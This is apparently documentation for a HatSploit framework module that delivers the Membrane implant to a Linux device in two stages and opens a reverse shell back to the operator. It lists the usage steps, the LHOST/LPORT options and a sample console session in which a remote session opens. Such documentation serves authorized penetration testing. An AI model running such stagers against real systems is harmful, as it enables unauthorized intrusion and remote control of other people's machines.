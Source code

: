 # `exploit/linux/stager/membrane_reverse_tcp`

## Description

This module uses [Membrane Implant](https://github.com/enty8080/membrane) to send it to device and execute from `/private/var/tmp` to provide reverse shell.

## Verification Steps

1. Start HatSploit
2. Do `use exploit/linux/stager/membrane_reverse_tcp`
3. Do: `set LHOST` to your local host
4. Do: `set LPORT` to your local port
5. Do: `run`

## Options

| Option    | Default Value         | Required | Description        |
|-----------|-----------------------|----------|--------------------|
| `LHOST`   | `self.helper.getip()` | yes      | Local host.        |
| `LPORT`   | 4444                  | yes      | Local port.        |

**LHOST**

Variable that contains local host.

**LPORT**

Variable that contains local port.

## Scenarios

```
(hsf: exploit: linux/stager/membrane_reverse_tcp)> run
[*] Starting listener on port 4444...
[*] Binding to 192.168.2.108:4444...
[+] Listener started on port 4444!
[*] Connecting to 192.168.2.110...                
[*] Sending first stage...                        
[*] Executing first stage...                      
[*] Sending second stage...                       
[*] Executing second stage...                     
[*] Establishing connection...                    
[+] Session 0 opened!
(hsf: post: linux/membrane/trolling/say)> sessions
 
Sessions
========
 
    ID    Host             Username    Hostname     
    --    ----             --------    --------     
    0     192.168.2.110    enty8080    Ivans-Mint

(hsf: post: linux/membrane/trolling/say)>
```
